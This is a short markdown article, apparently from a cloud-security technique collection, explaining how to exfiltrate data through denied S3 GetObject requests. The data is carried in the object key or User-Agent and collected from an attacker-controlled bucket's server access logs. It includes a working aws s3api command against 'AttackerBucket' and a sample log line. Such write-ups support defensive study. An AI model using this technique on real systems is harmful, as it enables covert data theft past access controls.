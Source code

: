 ```yaml
---
author_name: Costas Kourmpoglou
title: Data Exfiltration through S3 Server Access Logs 
description: Exfiltrate data via S3:GetObject and S3 server access logs.
hide:
  - toc
---
```


Related Reading: [https://airwalkreply.com/cloud-services-as-exfiltration-mechanisms](https://airwalkreply.com/cloud-services-as-exfiltration-mechanisms)

# Intro

If we have control over an IAM identity that allows `s3:GetObject`, depending on the network access to the S3 service, we can use S3 server access logs to a bucket _we_ control, and use it to exfiltrate data.

With server access logging, every request to our S3 bucket will be logged to a separate logging bucket. This includes internal AWS requests, or requests made via the AWS console.
Even if a request is denied, the payload that the request is carrying, will be sent to our logging bucket. We can then send `GetObject` requests to s3 buckets, that we don't have access to, but because we control the server access logs, we will still receive the data that we want to exfiltrate in the first place.  
 

# How 

We'll create an S3 bucket, `AttackerBucket` in our account with [server access logging](https://docs.aws.amazon.com/AmazonS3/latest/userguide/ServerLogs.html).
Let's name the logging bucket `AttackerBucketLogs`.
With our data in hand `ExampleDataToExfiltrate`, we will send a `GetObject` request to our bucket, for example:

`aws s3api get-object --bucket AttackerBucket  --key ExampleDataToExfiltrate`

The request will be denied. However the attempt along with the other details, including our key `ExampleDatatoExfiltrate` - which is the data we're exfiltrating -  will arrive to our logging bucket `AttackerBucketLogs`.

We'll receive the data in the default logging format:

```
[..] attackerbucket […] 31.94.19.179 – […] REST.GET.OBJECT ExampleDataToExfiltrate "GET / ExampleDataToExfiltrate HTTP/1.1" 403 AccessDenied 243 - 18 - "-" "UserAgentAlsoHasData " – […]
```


We're exfiltrating data, using the Key parameter of the request. There's a hard limit of 1024 bytes per Key, but other request fields can be used like User-Agent.

# Challenges

There are two challenges with this method:

1. If the network access to the S3 service takes place over a VPC endpoint, then the policy of the VPC endpoint would need to allow access to our bucket.
The VPC endpoint will drop the request and will not forward it to the S3 service, if the policy doesn't allow it. The S3 service won't be able to generate logs, and we won't be able to exfiltrate data.

2. The logs are not guaranteed to arrive in order. If you're splitting data across multiple requests, you'll need to figure out a mechanism to re-order the data correctly.  

 
For the general usecase where network access to the S3 service takes place over the internet, there is a 10-120 minute delay, in the log delivery.
